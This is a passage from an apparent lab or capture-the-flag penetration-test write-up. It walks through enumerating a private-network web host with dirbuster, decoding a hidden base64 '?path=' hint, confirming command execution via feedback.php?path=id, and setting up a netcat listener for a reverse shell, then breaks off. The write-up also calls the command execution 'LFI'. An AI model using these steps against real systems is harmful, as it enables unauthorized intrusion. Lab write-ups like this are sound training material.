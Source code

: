 ```css
User-agent: * 
Disallow: /
#Dont Ignore 404! Developer 
#Try Harder
```

#### 4.2.2 **Directory Enumeration**

Directory **bruteforcing** with **dirbuster** using the **wordlist** **`/usr/share/wordlists/dirbuster/web_users2.txt`** revealed several hidden directories and files:

```bash
dirbuster -u http://192.168.74.146:80 -l /usr/share/wordlists/dirbuster/web_users2.txt -t 200
```

Notable discoveries:

- **`/root/login/admin/contact.php?status=`**
- **`/root/images/os/feedback.php`**


#### 4.2.3 **Hidden Comment Analysis**

The `feedback.php` page contained a suspicious HTML comment:

```css
<!-- P3BhdGg9 --!>
```

Base64 decoding revealed:

```bash
echo 'P3BhdGg9' | base64 -d
# Output: ?path=
```

This suggested a potential parameter for exploitation.

## 5. **EXPLOITATION**

### 5.1 **Local File Inclusion (LFI) Vulnerability**

#### 5.1.1 **Vulnerability Confirmation**

The decoded parameter was tested to confirm the presence of an LFI vulnerability:

```bash
http://192.168.74.146/root/images/os/feedback.php?path=id
```

The page executed the `id` command and displayed its output, confirming command execution capability.

#### 5.1.2 **Reverse Shell Exploitation**

A netcat listener was established on the attacking machine:

```bash
sudo nc -nlvp 9999
```
